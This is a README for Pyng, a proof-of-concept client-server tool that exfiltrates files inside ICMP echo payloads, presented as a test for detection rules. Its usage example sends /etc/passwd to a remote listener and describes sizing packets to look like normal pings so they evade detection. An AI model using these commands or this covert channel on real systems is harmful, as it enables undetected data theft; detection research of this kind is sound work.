 # Pyng - ICMP file transfer

Pyng provides a client-server pair for file transfer over ICMP echo requests.  

The Pyng client reads a local file, splits it into 16 byte chunks and injects each chunk into the payload of an ICMP echo request sent to the Pyng server. The Pyng server listens for echo requests, parses their payloads and extracts the original file.

## Why?

PoC of simple data exfiltration techniques that you might not be detecting on. The 16-byte limit means Pyng is slow and resource hungry as hell but it also makes Pyng's pings the same length as ping's pings, requiring that little bit of extra effort in your detection rules.

## Install

Pyng is built for Python 3.8 and up using only the standard library - no external packages are required. Both the client and server are standalone. All you need are the `pyng_cl.py` and `pyng_sv.py` files.

## Use

| :exclamation:  The pyng server requires root level permissions. Proceed with caution and common sense. |
|-----------------------------------------|

To listen for incoming files, run `sudo ./pyng_sv.py [IP]`. If you do not provide an interface address, Pyng listens on 0.0.0.0 by default :

```sh
~ > sudo ./pyng_sv.py
[*] Pyng server listening on 0.0.0.0
```

To transfer files, run `./pyng_cl.py [SRV_IP] [FILE_PATH]` : 

```sh
$ ./pyng_cl.py 192.168.0.37 /etc/passwd
[+]  Transfer start
[+]  File: /etc/passwd
[+]  Chunks: 207
[+]  Sending: 207 / 207
```

Back on the server, you'll see the transfer information, including the client IP and the file name (local and remote), size and MD5 sum : 

```sh
~ > sudo ./pyng_sv.py 192.168.0.37
[*] Pyng server listening on 192.168.0.37
[*] T1: Start transfer from 192.168.0.102
T1: Complete
T1: Remote:	/etc/passwd
T1: Local:	./pyng_192.168.0.102_1
T1: Size:	3230
T1: MD5:	0039ba53ecf81c2e4eaa50c0beab80cb
```

## Troubleshoot

You need ping installed on the machine running pyng_cl, Pyng does not build its own packets.

The Pyng server does not distinguish between echo requests and responses and will crash if pyng_cl and pyng_sr are ran on the same machine.

The Pyng server waits for magic bytes indicating that the transfer is complete before writing the file to disk ; this means that a lot of data is being stored in process memory when transferring big files. The Pyng client does a similar thing, reading the whole of the target file to process memory in one big gulp. Like I said, PoC, PoC.

Pyng has been tested on two local ubuntu VMs. How does it work on other OSes? What if the ping implementation differs slightly between machines? I don't know, do let me know.

Pyng has crappy performance and eats cpu cycles - it's a python script calling subprocess.Run, not sure what you we're expecting in terms of performance.

## Credits

Pyng is inspired by a Python ping sweeper presented in Justin Seitz and Tim Arnold's book [Black Hat Python](https://nostarch.com/black-hat-python2E).
